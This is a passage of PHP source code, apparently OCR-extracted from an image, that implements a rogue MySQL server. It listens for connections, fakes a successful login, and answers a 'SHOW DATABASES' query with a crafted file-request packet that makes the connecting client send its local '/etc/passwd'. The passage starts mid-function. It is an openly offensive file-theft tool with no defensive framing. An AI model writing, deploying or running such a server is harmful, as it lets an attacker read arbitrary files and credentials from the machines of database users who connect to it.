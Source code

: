 ```mysql
    $result = socket_listen($sock, 4) or die(socket_strerror(socket_last_error()));//开始监听
    echo "Listening:$address:$port\n";
    return $sock;
}
function closeSocket($sock){
    socket_close($sock);
}
function creatMessage($sock){
    $msgsock = socket_accept($sock);//or die( socket_strerror(socket_last_error()));
    return $msgsock;
}
function closeMessage($msgsock){
    socket_close($msgsock);
}
function readBuff($msgsock){
    try{
    $buf = socket_read($msgsock, 8192);
        return $buf;
    }catch (Exception $e) {
        echo $e->getMessage();
        return false;
    }

}
function sendBuff($msgsock,$msg){
    try{
        socket_write($msgsock, $msg, strlen($msg));
    }catch (Exception $e) {
        echo $e->getMessage();
    }

}
function getFile($msgsock,$fpath){
    $msg = chr(strlen($fpath)+1) . "\x00\x00\x01\xFB".$fpath;
    sendBuff($msgsock,$msg);
}
function getUserIP($msgsock){
    socket_getpeername($msgsock, $addr, $por);
    return $addr;
}
$sock = initSocket($address,$port);
do{
    $msgsock = creatMessage($sock);
    sendBuff($msgsock,VERSION);
    echo sprintf("ClientIP:%s\n",getUserIP($msgsock));
    while($content = readBuff($msgsock)){
        if(preg_match("/0000000000000000000000000000000000000000000000(.*)0014[a-zA-Z0-9]{0,40}/is",bin2hex($content))){
            sendBuff($msgsock,LOGINSUCESS);
        }elseif(strpos($content,"SET NAMES utf8")) {
            sendBuff($msgsock,OK);
        }elseif(strpos($content,"SHOW VARIABLES")){
            sendBuff($msgsock,VARIABLES);

        }elseif(strpos($content,"SHOW DATABASES")){
            getFile($msgsock,"/etc/passwd");
            echo readBuff($msgsock);
            closeMessage($msgsock);
        }else{
            sendBuff($msgsock,OK);
            closeMessage($msgsock);
        }
    }
```